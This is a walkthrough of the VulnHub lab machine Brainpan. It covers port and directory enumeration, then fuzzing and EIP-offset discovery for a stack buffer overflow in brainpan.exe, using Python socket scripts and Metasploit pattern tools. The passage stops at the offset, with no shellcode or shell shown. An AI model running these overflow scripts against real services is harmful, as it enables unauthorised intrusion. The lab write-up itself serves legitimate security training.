







# <a href='https://www.vulnhub.com/entry/brainpan-1,51/' target="blank">Brainpan</a>

## <a href='/walk-through/vulnhub/Brainpan/auto-scan/' target="blank">Enumeration</a>

### Quick Scanning

``` bash
┌──(Hades㉿172.17.0.1)-[8.8:14.2]~
└─$ nmap -p- --min-rate 3000 192.168.110.136
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 09:11 EST
Nmap scan report for 192.168.110.136
Host is up (0.0012s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 2.49 seconds
```

### Check port

In there 9999, we need enter the password to access.



At port 10000, I saw only the image there.

=== "Port 10000"

	

=== "view-source"

	

### Gobuster

Let discovery port 10000 with gobuster and I saw the special uri "/bin".

``` bash
┌──(Hades㉿172.17.0.1)-[3.8:22.0]~
└─$ gobuster dir -u http://192.168.110.136:10000/ -w /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.110.136:10000/
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/26 09:36:04 Starting gobuster
===============================================================
/bin (Status: 301)
/index.html (Status: 200)
===============================================================
2021/01/26 09:36:07 Finished
===============================================================
```

Go to uri "/bin", I had exe file named "brainpan.exe".



## Buffer Overflow

Download "brainpan.exe" and setup environment in Windows machine with Immunity Debugger.


Check connection

Using nc at Kali machine



At Windows machine, the application received the string "Hades" as password. We can buffer here to exploit the vulnerability.



### Fuzzing

=== "poc.py"

    ``` python
    import socket
	import sys

	payload = "A" * 1000

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.110.129", 9999))

	s.send(payload)
    ```

=== "Kali Machine"

    ``` bash
	┌──(Hades㉿172.17.0.1)-[0.3:27.7]~
	└─$ python poc.py
    ```

=== "Windows Machine"
	

### EIP Control

Create pattern

``` bash
msf-pattern_create -l 1000
```

=== "poc.py"

    ``` python hl_lines="4"
	import socket
	import sys

	payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	s.connect(("192.168.110.129", 9999))

	s.send(payload)
    ```

=== "Kali Machine"

    ``` bash
	┌──(Hades㉿172.17.0.1)-[0.3:27.9]~
	└─$ msf-pattern_create -l 1000
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
	                                                                                                                                                                           
	┌──(Hades㉿172.17.0.1)-[0.3:27.6]~
	└─$ python poc.py             
	                                                                                                                                                                           
	┌──(Hades㉿172.17.0.1)-[0.3:27.7]~
	└─$ msf-pattern_offset -q 35724134
	[*] Exact match at offset 524
    ```

=== "Windows Machine"
	

Identify the offset

``` bash
msf-pattern_offset -q 35724134
[*] Exact match at offset 524
```